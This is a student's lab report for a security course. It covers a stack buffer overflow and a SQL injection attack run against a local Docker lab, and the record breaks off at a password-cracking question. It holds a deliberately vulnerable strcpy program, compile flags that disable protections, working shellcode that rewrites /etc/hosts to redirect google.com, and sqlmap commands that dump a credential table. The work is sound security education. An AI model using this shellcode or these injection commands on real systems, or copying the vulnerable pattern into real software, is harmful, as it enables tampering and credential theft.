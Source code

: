 https://github.com/Bright-04/Lab1-INSE330380E_24_1_02FIE.git


# Lab Report #1: Vulnerability Exploitation and Database Attack
**Student:** Nguyen Nhat Quang  
**ID:** 22110065  
**Course:** INSE330380E_24_1_02FIE  

## Task 1: Software Buffer Overflow Attack

### Question 1: Stack Frame of the Main Function
Stackframe of the main function:
![image](img/stackframe.png)
### Step 1: Create the Vulnerable C Program
To begin, we will create a simple C program that contains a buffer overflow vulnerability.

```bash
# Create vulnerable.c
nano vulnerable.c
```

Copy and paste the following code into `vulnerable.c`:

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
    char buffer[16];
    strcpy(buffer, argv[1]);
    return 0;
}
```

### Step 2: Compile the Vulnerable Program
Compile the program with security features disabled to facilitate the buffer overflow attack.

```bash
# Compile with security features disabled
gcc -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 -o vulnerable vulnerable.c
```

### Step 3: Create the Shellcode Assembly
Next, we will write our shellcode in assembly language.

```bash
# Create shellcode.asm
nano shellcode.asm
```

Copy and paste the following assembly code into `shellcode.asm`:

```nasm
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ; /etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ; permissions
    int 0x80            ; syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data ; jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ; length of the string
    pop edx
    int 0x80            ; syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ; syscall to close the file

    push 0x1
    pop eax
    int 0x80            ; syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```

### Step 4: Compile the Shellcode
Now we will assemble and link our shellcode.

```bash
# Assemble the shellcode
nasm -f elf32 shellcode.asm -o shellcode.o

# Link the object file
ld -m elf_i386 shellcode.o -o shellcode
```

### Step 5: Extract Raw Shellcode Bytes
Finally, we will extract the raw bytes of our shellcode and save them to a file.

```bash
# Extract shellcode bytes and save to file
objdump -d shellcode | grep '[0-9a-f]:' | cut -f2 -d: | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s > shellcode.txt
```

---

# Task 2: SQL Injection Attack Using SQLMap

## Environment Setup
- Launched SQLi lab Docker container
- Installed SQLMap for automated SQL injection testing
- Documented steps with relevant screenshots

**Question 1**: Enumerate Available Databases Using SQLMap
**Answer 1**:
I performed initial database enumeration using SQLMap with the following command:

```bash
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=admin&Password=seedadmin" --dbs
```

The scan revealed two databases on the target system:
1. information_schema
2. sqllab_users

![Database enumeration results](img/AvailableDBS.png)
![Detailed database listing](img/ADBS2.png)

**Question 2**: Extract Database Tables and User Information
**Answer 2**:
I executed two separate SQLMap commands to gather detailed information about the database structure and contents:

First, to enumerate tables in the information_schema database:
```bash
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=admin&Password=seedadmin" -D information_schema --tables
```

Then, to extract user credentials from the sqllab_users database:
```bash
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=admin&Password=seedadmin" -D sqllab_users -T credential --dump
```

Results:
- Successfully identified database tables and structure
- Retrieved user credentials from the credential table

![Database table listing](img/DBSL.png)
![Extracted credentials](img/credential.png)

**Question 3**: Password Cracking with John the Ripper
**Answer 3**: